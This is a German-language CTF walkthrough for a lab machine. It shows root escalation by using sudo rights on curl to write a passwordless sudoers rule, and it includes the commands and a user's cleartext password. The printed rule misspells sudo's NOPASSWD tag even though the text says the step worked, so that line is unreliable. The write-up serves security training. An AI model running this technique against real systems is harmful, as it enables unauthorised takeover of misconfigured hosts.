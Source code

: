 ### sauron zu root (Sudo/Curl File Write)

1.  **Sudo-Rechte-Prüfung für `sauron`:**
    *   `sudo -l` (als `sauron`) offenbarte, dass `sauron` den Befehl `curl` als `root` ausführen durfte (obwohl die genaue `sudoers`-Regel im Log fehlt, wird dies durch den erfolgreichen `sudo curl`-Befehl impliziert).

2.  **Manipulation der `sudoers`-Konfiguration:**
    *   Eine neue `sudoers`-Regel wurde erstellt, die `sauron` passwortlosen Root-Zugriff gewährt:
        ```bash
        echo 'sauron ALL=(ALL) NPASSWD: ALL' > /tmp/sauron
        ```
    *   Diese Regel wurde mittels `sudo curl` in das `sudoers.d`-Verzeichnis geschrieben:
        ```bash
        sudo curl file:///tmp/sauron -o /etc/sudoers.d/sauron
        # Passwort für sauron (yXKMw5wpSArL2CLX) wurde hier benötigt
        ```
3.  **Erlangung der Root-Shell:**
    *   `sauron@isengard:~$ sudo -i` funktionierte nun ohne Passwort und gewährte eine Root-Shell.

---

## Proof of Concept (Finale Root-Eskalation via Sudo Curl)

**Kurzbeschreibung:** Die finale Privilegieneskalation nutzte `sudo`-Rechte des Benutzers `sauron` aus, um `curl` als `root` auszuführen. Dies ermöglichte das Schreiben einer neuen, erweiterten `sudoers`-Regel in das Verzeichnis `/etc/sudoers.d/`. Diese neue Regel gewährte `sauron` passwortlosen `sudo`-Zugriff für alle Befehle, wodurch eine Root-Shell erlangt werden konnte.

**Schritte (als `sauron`):**
1.  Erstelle eine Datei mit der gewünschten `sudoers`-Regel:
    ```bash
    echo 'sauron ALL=(ALL) NPASSWD: ALL' > /tmp/sauron
    ```
2.  Verwende `sudo curl`, um diese Regel in `/etc/sudoers.d/` zu schreiben (Passwort für `sauron` wird benötigt):
    ```bash
    sudo curl file:///tmp/sauron -o /etc/sudoers.d/sauron
    ```
3.  Erlange eine Root-Shell:
    ```bash
    sudo -i
    ```
**Ergebnis:** Eine Shell mit `uid=0(root)` wird gestartet.

---

## Flags
